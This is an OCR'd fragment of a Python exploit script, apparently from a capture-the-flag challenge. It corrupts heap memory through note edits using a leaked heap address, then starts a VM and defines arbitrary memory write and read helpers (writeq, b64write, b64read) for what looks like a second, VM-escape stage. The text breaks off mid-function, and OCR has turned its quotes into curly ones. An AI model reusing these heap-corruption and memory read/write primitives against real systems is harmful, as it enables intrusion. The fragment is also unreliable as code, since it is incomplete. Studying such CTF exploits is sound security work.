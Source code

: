 edit_note(‘0’*8, quote(p64(heap+6480)), 1)

edit_note(‘0’*8, ‘c’*8, 2)

edit_note(‘0’*8, quote(p64(1)), 3)

​

# f(‘0’*8)

create_vm(‘0’*8)

connect_vm(‘0’*8)

​

#input(“stage 2”)

​

#print(vm_cmd(“inl 0xCF8”))

​

#io.interactive()

​

​

​

​

def writeq(addr,val):

    #s.sendline(“writeq “+hex(addr)+” “+hex(val))

    vm_cmd(“writeq “+hex(addr)+” “+hex(val))

​

def b64write(addr,size,data):

    #s.sendline(“b64write “+hex(addr)+” “+hex(size)+” “+ str(base64.b64encode(data),encoding=”utf-8”))

    vm_cmd(“b64write “+hex(addr)+” “+hex(size)+” “+ str(base64.b64encode(data),encoding=“utf-8”))

​

def b64read(addr,size):

    ”’

    s.sendline(“b64read “+hex(addr)+” “+hex(size))

    s.recvuntil(“OK “)

    data = s.recvuntil(“\n”)[:-1]

    #data = s.recvuntil(‘[‘)

    ”’
